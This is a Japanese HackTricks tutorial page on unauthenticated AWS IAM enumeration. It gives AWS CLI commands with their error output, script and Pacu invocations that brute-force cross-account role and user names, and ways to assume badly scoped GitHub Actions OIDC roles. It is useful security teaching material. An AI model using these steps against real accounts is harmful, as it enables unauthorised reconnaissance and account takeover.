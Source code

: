 # AWS - IAM未認証の列挙

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社の広告を見たい**場合や、**PEASSの最新バージョンをダウンロードしたり、PDFでHackTricksをダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォロー**する。
* **ハッキングのトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **githubリポジトリに送信してください。**

</details>

## アカウント内のロールとユーザー名を列挙する

### ~~ロールの強制推測~~

{% hint style="danger" %}
**このテクニックはもう機能しません**。ロールが存在するかどうかに関係なく、常に次のエラーが表示されます。

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

次を実行してこれをテストできます：

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

**許可されていないロールを推測しようとすると**、AWSは次のようなエラーを出力します：
```
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
このエラーメッセージは、ロールが存在するが、そのアサムロールポリシードキュメントによってアサムできないことを示しています。同じコマンドを実行しても、存在しないロールを対象にすると、AWSは次のように返します：
```
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
驚くべきことに、**このプロセスはクロスアカウントで動作します**。有効なAWSアカウントIDと適切に作成されたワードリストがあれば、制限なしにアカウントの既存のロールを列挙することができます。

この[スクリプトを使用して潜在的なプリンシパルを列挙](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum)することで、この問題を悪用することができます。

### 信頼ポリシー：クロスアカウントのロールとユーザーのブルートフォース

**IAMロールの信頼ポリシー**を設定/更新する際には、**どのAWSリソース/サービスがそのロールを仮の資格情報を取得するために使用できるか**を指定しています。

ポリシーを保存する際に、リソースが**見つかった場合**、信頼ポリシーは**正常に保存**されますが、リソースが**見つからない場合**は、無効なプリンシパルが指定されたことを示す**エラーがスロー**されます。

{% hint style="warning" %}
このリソースでは、クロスアカウントのロールまたはユーザーを指定することができます：

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

以下はポリシーの例です：
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

これは、存在しないロールを使用する場合に表示される**エラー**です。ロールが**存在する**場合、ポリシーはエラーなしで**保存**されます。（このエラーは更新時に表示されますが、作成時にも同様に機能します）

![](<../../../.gitbook/assets/image (68).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
このプロセスは[https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)を使用して自動化することができます。

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

または[Pacu](https://github.com/RhinoSecurityLabs/pacu)を使用することもできます:

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* この例で使用されている`admin`ロールは、pacuによって偽装されるためにアカウント内で使用される**ロール**です。列挙のために作成する必要のあるポリシーを作成するために使用されます。

### 特権昇格

ロールが誤って設定され、誰でもそれを仮定できるようになっている場合:

![](<../../../.gitbook/assets/image (35).png>)

攻撃者はそれを仮定するだけで済みます。

## サードパーティのOIDCフェデレーション

**AWS**内の**ロール**にアクセスしている**Github Actionsワークフロー**を読み取ることができたとしましょう。\
この信頼関係により、次の**信頼ポリシー**を持つロールにアクセスできるようになります:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
この信頼ポリシーは正しいかもしれませんが、**より多くの条件がないこと**から疑念を抱くべきです。\
なぜなら、前の役割は**Github Actionsの誰でも**が仮定できるからです！組織名、リポジトリ名、環境、ブランチなど、条件に他の要素も指定するべきです。

もう1つの潜在的な設定ミスは、次のような条件を**追加すること**です：
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
注意してください、コロン（:）の前にワイルドカード（\*）があります。**org\_name1**のような組織を作成し、Github Actionから**役割を仮定**することができます。

## 参考文献

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)
* [https://hackingthe.cloud/aws/enumeration/enum\_iam\_user\_role/](https://hackingthe.cloud/aws/enumeration/enum\_iam\_user\_role/)

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**最新バージョンのPEASSを入手したい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)を手に入れましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローしましょう 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>
